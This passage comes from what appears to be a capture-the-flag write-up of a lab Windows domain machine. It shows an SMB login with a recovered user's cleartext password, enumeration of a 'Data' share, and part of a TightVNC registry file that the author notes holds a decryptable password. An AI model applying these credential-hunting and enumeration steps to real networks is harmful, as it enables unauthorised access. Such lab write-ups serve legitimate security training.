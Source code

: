 Bingo bongo! Attempting to login via `WinRM` does not work. However, we can see `r.thompson` has access to a non-standard SMB Share `Data`. Let's view the contents:
```bash
smbclient \\\\$target\\Data -U "CASCADE\r.thompson" --password "rY4n5eva"

smb: \> dir
  .                                   D        0  Mon Jan 27 03:27:34 2020
  ..                                  D        0  Mon Jan 27 03:27:34 2020
  Contractors                         D        0  Mon Jan 13 01:45:11 2020
  Finance                             D        0  Mon Jan 13 01:45:06 2020
  IT                                  D        0  Tue Jan 28 18:04:51 2020
  Production                          D        0  Mon Jan 13 01:45:18 2020
  Temps                               D        0  Mon Jan 13 01:45:15 2020

                6553343 blocks of size 4096. 1621412 blocks available
smb: \> 
```

There's a lovely email in the `IT` directory:
![alt text](/assets/images/27-11-2024/email.png "IT email")
In a nutshell a user was created called `TempAdmin` with "the normal password". We can check if this account still exists later.

### Second User
Again enumerating through the directories inside `IT` we see:
```bash
smb: \IT\Temp\s.smith\> dir
  .                                   D        0  Tue Jan 28 20:00:01 2020
  ..                                  D        0  Tue Jan 28 20:00:01 2020
  VNC Install.reg                     A     2680  Tue Jan 28 19:27:44 2020

                6553343 blocks of size 4096. 1621412 blocks available
smb: \IT\Temp\s.smith\>
```

VNC files are notorious for storing decryptable passwords in files or the registry. Download the file using `get` and view the contents:
```bash
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC]

[HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server]
"ExtraPorts"=""
"QueryTimeout"=dword:0000001e
"QueryAcceptOnTimeout"=dword:00000000
"LocalInputPriorityTimeout"=dword:00000003
"LocalInputPriority"=dword:00000000
"BlockRemoteInput"=dword:00000000
```